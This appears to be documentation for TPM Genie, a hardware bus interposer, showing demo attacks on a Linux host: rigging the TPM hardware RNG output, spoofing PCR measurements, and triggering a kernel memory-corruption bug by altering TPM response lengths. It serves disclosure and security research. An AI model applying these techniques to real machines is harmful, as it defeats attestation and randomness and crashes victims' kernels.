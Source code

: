 # TPM Attack Demonstrations

TPM Genie comes pre-configured to conduct a number of attacks against the Linux kernel. These different attack modes are explained below.



## Undermining the Hardware Random Number Generator

To demonstrate attacks against the TPM hardware RNG, first ensure that the `tpm_rng` kernel module is loaded (exec `utils/load_hw_rng.sh` on the Raspberry Pi).

When the TPM is in default passthrough mode, the returned data appears to be suitably random:

```
$ sudo dd if=/dev/hwrng count=1 bs=16 | hexdump
1+0 records in
1+0 records out
16 bytes (16 B) copied, 0.152077 s, 0.1 kB/s
0000000 01 91 55 54 57 06 15 be 4b e3 ba b7 ca 5a c5 a8
0000010
```

However, when TPM Genie is allowed to interpose the `TPM_ORD_GetRandom` command ordinal (press `m` key in the console until `Alter Hardware RNG` state is entered), we observe entirely different output from the HWRNG.

```
$ sudo dd if=/dev/hwrng count=1 bs=16 | hexdump
1+0 records in
1+0 records out
16 bytes (16 B) copied, 0.152077 s, 0.1 kB/s
0000000 aa aa aa aa aa aa aa aa aa aa aa aa aa aa aa aa
0000010
```

## Spoofing PCR Measurements

In order to demonstrate the act of spoofing PCR measurements, a few simple utilities are provided. The `utils/pcr_extend.py` and `utils/pcr_read.py` scripts can be run on the victim to interact with the `/dev/tpm0` character device and issue `TPM_ORD_PcrExtend` and `TPM_ORD_PcrRead` commands to the TPM chip.

First, we demonstrate normal operation of the PCR Extend ordinal by measuring the string “hello world” and extending the SHA-1 digest into PCR index 1.

```
$ echo -n -e “hello world” > extend_data
$ sudo python3 pcr_extend.py -i 1 -f extend_data

[*] Reading this file:        pcr_extend_data
[*] Computed this digest:     2aae6c35c94fcfb415dbe95f408b9ce91ee846ed
[*] Extending into PCR index: 1
[*] Output digest:            54c528f774ceb1f270ba5349fcabc2a1bd1f10d4

$ sudo python3 pcr_read.py -i 1

PCR  1: 54 c5 28 f7 74 ce b1 f2 70 ba 53 49 fc ab c2 a1 bd 1f 10 d4
```

Next, we demonstrate how the PCR value changes if we modify the string that is measured. The resultant digest is extended into PCR index 2.

```
$ echo -n -e “evil” > other_data
$ sudo python3 pcr_extend.py -i 2 -f extend_data

[*] Reading this file:        other_data
[*] Computed this digest:     b653891162a040e1bfe6e436bdcd93827e0c56e5
[*] Extending into PCR index: 2
[*] Output digest:            ede6e014e28a3458c1dd1aa26f0716616f77384a

$ sudo python3 pcr_read.py -i 2

PCR  2: ed 66 e0 14 e2 8a 34 58 c1 dd 1a a2 6f 07 16 61 6f 77 38 4a
```

Finally, we put TPM Genie into `SPOOF_PCR_EXTEND` mode (press the `m` key). Once again, we attempt to extend the tampered file into PCR index 3.

```
$ sudo python3 pcr_extend.py -i 3 -f other_data

[*] Reading this file:        other_data
[*] Computed this digest:     b653891162a040e1bfe6e436bdcd93827e0c56e5
[*] Extending into PCR index: 3
[*] Output digest:            54c528f774ceb1f270ba5349fcabc2a1bd1f10d4

$ python3 pcr_read.py -i 3

PCR  3: 54 c5 28 f7 74 ce b1 f2 70 ba 53 49 fc ab c2 a1 bd 1f 10 d4
```

Notice that this new PCR value (index 3) is identical to the first PCR value that was set prior to tampering with the measured file (index 1). TPM Genie has replaced the digest of the string “evil” with the digest of the string “hello world” as it was transmitted over the serial bus.

## Inducing Kernel Memory Corruption

During my TPM Interposer research, I discovered a number of kernel vulnerabilities, whereby an interposer could trigger memory corruption by altering TPM response packets. The patches for these bugs are most likely going to land in kernel version `v4.16`.

TPM Genie is able to trigger one such kernel memory corruption bug out-of-the-box. Simply switch interposer modes until you arrive at the `Trigger Kernel Crash` mode. You must also ensure that the `tpm_rng` kernel module is loaded on the victim, then execute the following command:

```
$ sudo dd if=/dev/hwrng bs=1 count=64 | hexdump -C
```

You should see a crash look something like this:

```
[  300.232615] Unable to handle kernel paging request at virtual address c3487d00
[  300.234638] Unable to handle kernel paging request at virtual address 1f11141c
[  300.234645] pgd = 80004000
[  300.234655] [1f11141c] *pgd=00000000
[  300.234672] Internal error: Oops: 80000005 [#1] PREEMPT SMP ARM
[  300.234733] Modules linked in: tpm_rng cfg80211 rfkill tpm_i2c_infineon tpm spi_bcm2835 i2c_bcm2708 bcm2835_gpiom]
[  300.234745] CPU: 3 PID: 0 Comm: swapper/3 Not tainted 4.1.21-v7+ #1
[  300.234750] Hardware name: BCM2709
[  300.234757] task: b9904800 ti: b9936000 task.ti: b9936000
[  300.234768] PC is at 0x1f11141c
[  300.234786] LR is at rcu_process_callbacks+0x65c/0x7a4
[  300.234796] pc : [<1f11141c>]    lr : [<80079620>]    psr: 20000113
[  300.234796] sp : b9937e40  ip : b9214200  fp : b9937e9c
[  300.234801] r10: b9936000  r9 : b9f8fc1c  r8 : 0000000a
[  300.234807] r7 : 1f01141e  r6 : b7373a94  r5 : 00000002  r4 : 00000000
[  300.234814] r3 : 808964c0  r2 : 00000000  r1 : 1f11141e  r0 : b7373a94
```

This proof of concept works very simply. The log from TPM Genie shows exactly what has happened. The TPM hardware returned the expected number of random bytes (`64`), however, TPM Genie altered the `rng_data_len` field from `0x0040` to `0x0FFF`, resuling in a very large memory copy.

```
|        Tnsy < TPM |        | 00 00 00 40 C2 9C 65 93 DC 14 B8 BD 64 90 E0 7A
|                   |        | 2F 1E C8 84 74 57 A9 9B EC 59 9E 6D C8 F5 7E D2
|                   |        | 7B D4 BA 67 01 7D B9 DA 7A 18 22 D3 E8 1D E0 A6
|                   |        | E8 6C 5F 34 77 EA 68 FC 64 02 12 51 13 35 12 F1
|                   |        | 14 D3 F2 3E
|-------------------|--------|--------------------------------
| Host < Tnsy       |        | 00 00 0F FF 41 41 41 41 41 41 41 41 41 41 41 41
|                   |        | 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
|                   |        | 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
|                   |        | 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
|                   |        | 41 41 41 41
```


